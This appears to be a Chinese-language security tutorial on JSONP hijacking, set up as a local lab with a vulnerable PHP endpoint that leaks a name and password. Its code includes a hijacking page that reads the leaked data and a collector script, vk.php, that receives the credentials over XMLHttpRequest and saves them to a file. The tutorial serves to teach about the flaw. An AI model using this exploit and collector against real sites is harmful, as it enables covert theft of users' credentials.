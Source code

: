 # Jsonp劫持

## jsonp劫持的原理
使用json进行敏感信息传递。攻击机者写一个伪造的页面欺骗受害者点击这个页面，导致json信息被暗中采集。感觉和CSRF差不多...
利用手法大概如图：
![Qamm0x.png](https://s2.ax1x.com/2019/12/08/Qamm0x.png)

## 小试
jsonp.php
```php
<?php
header('Content-type: application/json');
$jsoncallback = htmlspecialchars($_REQUEST ['jsoncallback']);//获取回调函数名
//json数据
//$json_data = '["id","user"]';
if(isset($_REQUEST['jsoncallback'])){
	$json_data='({"id":"1","name":"Aaron","password":"1234567890"})';
	echo $jsoncallback . "(" . $json_data . ")";//输出jsonp格式的数据
}
?>
```
访问jsonp.php会得到json信息
![QamB9g.png](https://s2.ax1x.com/2019/12/08/QamB9g.png)

hijack.html
```javascript
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP劫持测试</title>
</head>
<body>
<script type="text/javascript">
function callbackFunction(result)
        {
            alert("username:"+result.name+" password:"+result.password);
        }
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsoncallback=callbackFunction"></script>
</body>
</html>
```
![](https://s2.ax1x.com/2019/12/08/QamIgJ.png)

当然也可以写一个php接收请求，然后在把得到的内容保存到txt
vk.php
```php
<?php
$username=$_GET['username'];
$password=$_GET['password'];
if(isset($username)&&isset($password)){
	$data="用户名:".$username."密码:".$password;
	file_put_contents("pwd.txt",$data);
}
?>
```

修改js
```javascript
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP劫持测试</title>
</head>
<body>
<script type="text/javascript">
function callbackFunction(result)
        {
            var username=result.name;
			var password=result.password;
			const requests=new XMLHttpRequest();
			const url="http://127.0.0.1/vk.php?username="+username+"&password="+password;
			requests.open("GET",url);
			requests.send();
        }
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsoncallback=callbackFunction"></script> <!-- 将得到的json转给callbackFunction函数处理
</body>
</html>
```
![](https://s2.ax1x.com/2019/12/08/QanWqI.png)

如果是被那种钓鱼的话，估计js会被混淆的很严重...

## 参考链接
[JSONP 劫持漏洞实例 - Bypass - 博客园](https://www.cnblogs.com/xiaozi/p/9963523.html)
[JSONP劫持](https://blog.csdn.net/u012628581/article/details/95495054)

## 实例
[360某json hijacking(只要你登陆访问，我就知道你的用户名，邮箱) \| 乌云漏洞库,乌云镜像站, WooYun 漏洞库, WooYun 镜像站](https://shuimugan.com/bug/view?bug_no=11284)